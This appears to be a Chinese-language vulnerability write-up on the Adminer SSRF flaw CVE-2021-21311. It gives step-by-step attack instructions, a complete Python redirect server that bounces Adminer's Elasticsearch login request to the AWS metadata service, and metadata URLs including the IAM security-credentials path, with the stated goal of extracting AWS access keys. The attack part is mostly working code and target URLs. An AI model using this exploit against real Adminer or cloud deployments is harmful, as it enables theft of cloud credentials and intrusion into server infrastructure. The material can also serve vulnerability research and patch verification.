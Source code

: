# Adminer SSRF（CVE-2021-21311）

使用管理员发送任意get请求并从内部服务器检索JSON响应的方法。可以从AWS元数据服务中提取AWS访问密钥。

**攻击步骤：**

首先，启动一个python服务器，该服务器侦听传入的连接并以301重定向响应到任意选择的主机。在此示例情况下，重定向指向AWS元数据服务：

```
http://169.254.169.254/latest/meta-data/instance-id
```

然后，在Adminer中使用Elasticsearch登录模块“登录”运行python代码的服务器，这导致Adminer从包含服务器的AWS实例ID的元数据服务器打印json响应。

![](images/16133787776790.jpg)


重定向请求的python脚本：


```py
#!/usr/bin/env python

import SimpleHTTPServer
import SocketServer
import sys
import argparse

def redirect_handler_factory(url):
    """
    Returns a request handler class that redirects to supplied `url`
    """
    class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
       def do_GET(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

       def do_POST(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

    return RedirectHandler


def main():

    parser = argparse.ArgumentParser(description='HTTP redirect server')

    parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
    parser.add_argument('--ip', '-i', action="store", default="", help='host interface to listen on')
    parser.add_argument('redirect_url', action="store")

    myargs = parser.parse_args()

    redirect_url = myargs.redirect_url
    port = myargs.port
    host = myargs.ip

    redirectHandler = redirect_handler_factory(redirect_url)

    handler = SocketServer.TCPServer((host, port), redirectHandler)
    print("serving at port %s" % port)
    handler.serve_forever()

if __name__ == "__main__":
    main()

```


```
http://169.254.169.254/latest/meta-data/iam/security-credentials/  //列出服务器的可用角色。
```

![](images/16133787994051.jpg)


ref：

https://github.com/advisories/GHSA-x5r2-hj5c-8jx6

https://gist.github.com/bpsizemore/227141941c5075d96a34e375c63ae3bd